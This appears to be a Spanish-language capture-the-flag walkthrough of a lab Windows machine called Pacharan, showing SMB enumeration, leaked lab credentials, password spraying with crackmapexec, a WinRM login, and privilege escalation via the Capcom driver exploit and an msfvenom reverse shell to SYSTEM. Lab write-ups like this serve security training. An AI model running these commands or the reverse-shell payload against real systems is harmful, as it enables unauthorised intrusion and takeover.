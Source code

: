 sudo arp-scan --interface=eth1 --localnet

192.168.1.148

nmap: 

![image](https://github.com/user-attachments/assets/14a62243-adf8-4284-9f40-2537cdd9b605)

--------

En el escaneo nos dio muchos puertos pero nos dio: "smb2-time:" 
podemos empezar a lanzar por SMB. 
lanzamos:

     smbmap -H 192.168.1.148 -u invitado


![image](https://github.com/user-attachments/assets/1d33d6d6-deba-47fe-b60d-43316c9e5117)

y nos importa los dos que dicen READ ONLY y volvemos a lanzar un smbmap pero utilizando los IPC:

     smbclient -U invitado //192.168.1.148/NETLOGON2

nos da un txt con: Pericodelospalotes6969

![image](https://github.com/user-attachments/assets/2bc4068f-81e0-4b9b-b8ac-51e4a17df294)

ahora tenemos un usuario y una posible contraseña, lanzamos:

     smbmap -H 192.168.1.148 -u orujo -p Pericodelospalotes6969



![image](https://github.com/user-attachments/assets/2bc577e4-de24-44e5-87d2-84c4db6844df)

ahora nos dio un "ah.txt" lo pasamos a nuestro terminal 

![image](https://github.com/user-attachments/assets/784ad59c-4333-4c12-8ff3-c7bc196762c1)

ahora vamos a enumerar los usuarios con "rpcclient" con el de Orujo

     rpcclient -U 'Orujo' 192.168.1.148 

![image](https://github.com/user-attachments/assets/974c54b7-ace5-4d28-8756-2df6318e73d7)

ahora todos esos nombres los vamos a meter a un txt. 

>Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons

lanzamos: 

     crackmapexec smb 192.168.1.148 -u user.txt -p ah.txt

![[the hackers labs/avanzado/pacharan/test7.png]]

obtenemos: PACHARAN.THL\Whisky:MamasoyStream2er@ 

ahora que tenemos la contraseña podemos usar "rpcclient" otra vez pero con la contraseña que encontramos. 

     rpcclient -U "Whisky%MamasoyStream2er@" 192.168.1.148 -c 'enumprinters'

nos da: 

![[the hackers labs/avanzado/pacharan/test8.png]]

donde marque puede que sea una contraseña. 

lanzamos: 

     crackmapexec winrm 192.168.1.148 -u user.txt -p TurkisArrusPuchuchuSiu1

![[the hackers labs/avanzado/pacharan/test9.png]]

obtenemos: [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 (Pwn3d!)

**"Pwn3d!" se usa cuando un sistema, servidor o cuenta ha sido comprometido exitosamente. Ejemplo: si un atacante logra acceso root a un sistema, puede decir "Pwn3d!" para indicar que ha tomado el control total.**

lanzamos:

    evil-winrm -i 192.168.1.148 -u 'Chivas regal' -p TurkisArrusPuchuchuSiu1

y obtenemos 

![[the hackers labs/avanzado/pacharan/test10.png]]

ahora vamos a escalar privilegios, vamos a crear una carpeta con los exploit que necesitaremos para escalar y aquí hay una explicación sobre la escalada: https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/

nos vamos a la carpeta raíz y creamos un /tmp y dentro empezamos a cargar los exploit.
https://github.com/JoshMorrison99/SeLoadDriverPrivilege

     upload LoadDriver.exe

     upload Capcom.sys

     upload ExploitCapcom.exe 

pasamos esos exploit a la maquina victima, y nos creamos una reverse shell 

     msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o rev.exe

ahora pasamos la rev.exe a la maquina victima, colocamos el terminal nuestro en escucha y ejecutamos el exploit junto a la reverse shell.

     .\ExploitCapcom.exe C:\tmp\rev.exe


![[the hackers labs/avanzado/pacharan/test11.png]]

como vemos da: nt authority\system
que es el nivel mas alto de privilegios del sistema. 
